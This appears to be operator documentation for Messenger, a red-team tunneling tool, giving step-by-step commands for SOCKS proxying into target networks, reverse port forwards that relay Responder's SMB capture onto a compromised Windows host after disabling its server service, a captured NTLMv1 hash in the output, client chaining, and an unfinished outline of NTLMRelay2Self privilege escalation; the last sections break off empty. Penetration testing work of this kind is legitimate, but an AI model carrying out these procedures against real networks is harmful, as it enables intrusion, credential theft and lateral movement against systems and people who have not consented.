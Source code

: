 # Operational Usage

One goal of Messenger is to make it easy for operators to perform specific attacks common to standard pentest and red team scenarios while also staying flexible enough to perform attacks we haven't thought about yet. Below you'll find the most common use-cases for Messenger and step-by-step instructions for how to perform these attacks.

### SOCKS Proxy

The most common use-case for Messenger is setting up an ingress SOCKS proxy, allowing network traffic from external tools to be tunneled into a target network.

1. After a new messenger checks in, interact with it by entering the messenger ID:
```
[+] WebSocket Messenger `PWnauryxxD` is now connected.
(messenger)~# PWnauryxxD
(PWnauryxxD)~#
```
2. Next, use the `socks` command with a specified port to open a SOCKS proxy.
```
(PWnauryxxD)~# socks 1080
[*] Attempting to forward (127.0.0.1:1080) -> (*:*).
[+] Messenger PWnauryxxD now forwarding (127.0.0.1:1080) -> (*:*).
(PWnauryxxD)~#
```
3. Use a proxy-capable tool, or a proxifier tool, such as `proxychains`, to send TCP traffic through the SOCKS proxy. An example `proxychains` config for a Messenger SOCKS proxy on port 1080 is provided here:
```
[ProxyList]
socks5  127.0.0.1 1080
```
4. Hint: to check to make sure your SOCKS tunnel is working, try using `curl` on `ifconfig.io` to check which IP address you are coming from.
```
# proxychains curl ifconfig.io
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ifconfig.io:80  ...  OK
68.12.211.24
```

### Reverse Port Forwards

Messenger supports reverse port forwards. A service hosted externally can be bridged in and hosted on the same computer as the Messenger client. Although reverse forwards do not require root/administrator access, firewall manipulation and binding to privileged ports typically do. A common example of this functionality is forwarding [Responder](https://github.com/lgandx/Responder)'s SMB capture server onto a compromised Windows host.
1. By default, TCP/445 is in use by the `System` process (PID: 4). In order to start a reverse forwarder on port 445, we first need to [unbind the server service](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac). This will require administrator privileges.
```powershell
Set-Service -ServiceName LanmanServer -StartupType Disabled
Stop-Service -ServiceName LanmanServer
Stop-Service -ServiceName srv2
Stop-Service -ServiceName srvnet
```
2. Verify the SMB service is no longer listening
```
netstat -ano | findstr 445
```
3. Next, start a Messenger client with a remote forward for TCP port 445. This will start a server bound to all interfaces (0.0.0.0) on TCP/445 on the Messenger client host. Traffic from this forwarder will be sent to 127.0.0.1:445 on the Messenger server after the forward is approved.
```
python3.exe messenger-client 192.168.1.100:8080 ZDXgoqyVXqDpJyBMJt 0.0.0.0:445:127.0.0.1:445
```
4. After the Messenger client connects, interact with the messenger and enable the remote forward from the server side. If not, the following message will appear in the Messenger server console:
```
[!] Messenger wtwNJsfYRJ has no Remote Port Forwarder configured for 127.0.0.1:445, denying forward!
```

```
[+] WebSocket Messenger `wtwNJsfYRJ` is now connected.
(messenger)~# wtwNJsfYRJ
(wtwNJsfYRJ)~# remote 445
[*] Messenger KacLHgjlol now forwarding (*:*) -> (127.0.0.1:445).
```
5. Start Responder and bind to the loopback interface on the Messenger server:
```
python3 Responder.py -I lo
```
6. Use a coercion technique or other method to force authentication back to the Messenger client host. As a simple proof of concept, open an Explorer window and enter `\\127.0.0.1\C$` in the folder path. If done correctly, Responder should have captured the forwarded authentication.
```
[SMB] NTLMv1-SSP Client   : 127.0.0.1
[SMB] NTLMv1-SSP Username : BORGAR\kclark
[SMB] NTLMv1-SSP Hash     : kclark::BORGAR:DA0D86D275019B9300000000000000000000000000000000:4E975DA5F409E4475F57BFCC28BBB3BF32F7FE6C29603B08:b26d7ecc63011faa
```

### Messenger Chaining

Messenger does not have a native method to chain multiple messenger clients to each other, but reverse port forwarding makes it possible to forward the messenger server through a client.
```
+-----------+        +-----------+        +-----------+
| Messenger |        | Messenger |        | Messenger |
| Server    | <----- | Client A  | <----- | Client B  |
|           |        |           |        |           |
+-----------+        +-----------+        +-----------+
```
1. Set up a reverse port forward on Messenger client A to forward the server's port. In this example, the Messenger server is listening on TCP/8080 and will be reverse forwarded to TCP/8888 on the Messenger client.
```
python3.exe messenger-client 192.168.1.100:8080 ZDXgoqyVXqDpJyBMJt 0.0.0.0:8888:127.0.0.1:8080
```
2. Start a second Messenger client (Messenger B) to link up with the now forwarded listener on the Messenger A host.
```
python3.exe messenger-client 192.168.1.20:8888 ZDXgoqyVXqDpJyBMJt
```
3. A new messenger should have checked in. This new Messenger can be interacted with like normal.
```
[+] WebSocket Messenger `SiHSttBrWG` is now connected.
(LDbNqWdgsk)~# messengers
                                  Messengers
   Identifier      Transport    Alive    Forwarders      Sent       Received
---------------- ------------- ------- -------------- ----------- ------------
  > LDbNqWdgsk     WebSocket     Yes     vHcsbeQnWM     4.57 KB     22.48 KB
   SiHSttBrWG      WebSocket     Yes        •••           0 B         0 B

(LDbNqWdgsk)~# forwarders
                                                   Forwarders
          Type              Identifier   Clients Listening Host Listening Port Destination Host Destination Port
------------------------- -------------- ------- -------------- -------------- ---------------- ----------------
  Remote Port Forwarder     vHcsbeQnWM      1          *              *           127.0.0.1           8080
```

### NTLMRelay2Self

[NTLMRelay2Self](https://github.com/med0x2e/NTLMRelay2Self) is a type of privilege escalation attack where an attacker performs authentication coercion and LDAP relay attacks in order to gain SYSTEM-level access to the compromised system. This attack requires the following:
- Low-privileged access on a domain-joined Windows workstation
- Ability to trigger-start the WebClient service on the workstation
- Ability to coerce authentication (via EFS, spooler, etc.) on the workstation
- LDAP signing or LDAPS channel binding not enforced on a DC
- Ability to perform computer-takeover primitive (RBCD or Shadow Credentials)

1. 

### Port Scanning

